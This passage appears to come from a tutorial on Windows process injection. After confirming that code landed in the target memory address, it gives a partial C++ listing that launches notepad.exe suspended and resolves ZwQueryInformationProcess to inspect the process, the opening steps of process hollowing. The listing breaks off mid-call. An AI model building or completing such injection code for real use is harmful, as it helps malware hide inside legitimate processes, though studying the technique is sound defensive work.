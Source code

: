 So we can confirm that the code has been correctly injected in the correct memory address. 

### Full Code

```c
#include <iostream>
#include <Windows.h>
#include <winternl.h>

typedef NTSTATUS(NTAPI* pfnZwQueryInformationProcess)(
    HANDLE ProcessHandle,
    DWORD ProcessInformationClass,
    PVOID ProcessInformation,
    DWORD ProcessInformationLength,
    PDWORD ReturnLength
    );

int main()
{
  std::cout << "Creating Process notepad.exe." << std::endl;;
	
	// Define and initialize STARTUPINFOA and PROCESS_INFORMATION structures
	STARTUPINFO si = { 0 };
	PROCESS_INFORMATION pi = { 0 };
	SECURITY_ATTRIBUTES sa = { 0 };
	si.cb = sizeof(STARTUPINFO);
	
	// 1 -- Create the process in a suspended state
	if (!CreateProcess(
	    L"C:\\Windows\\System32\\notepad.exe",
	    nullptr,
	    nullptr,
	    nullptr,
	    FALSE,
	    CREATE_SUSPENDED,
	    nullptr,
	    nullptr,
	    &si,
	    &pi))
	{
			// Display error message if process creation fails
	    std::cerr << "Error creating the process." << std::endl;
	    return -1;
	}
	 //First we obtain a handler to ntdll.dll
	 HMODULE hNtDll = GetModuleHandle(L"ntdll.dll");
	 if (!hNtDll) {
	     std::cerr << "Error loading ntdll.dll." << std::endl;
	     return -1;
	 }
	
	//Obtain the address of the required function
	 pfnZwQueryInformationProcess ZwQueryInformationProcess =
	     (pfnZwQueryInformationProcess)GetProcAddress(hNtDll, "ZwQueryInformationProcess");
	
	 if (!ZwQueryInformationProcess) {
	     std::cerr << "Error obtaining the function ZwQueryInformationProcess." << std::endl;
	     return -1;
	 }
	
	 PROCESS_BASIC_INFORMATION pbi = { 0 };
	 DWORD retlen = 0;
	 // 2 -- Use the 
	 NTSTATUS status = ZwQueryInformationProcess(
```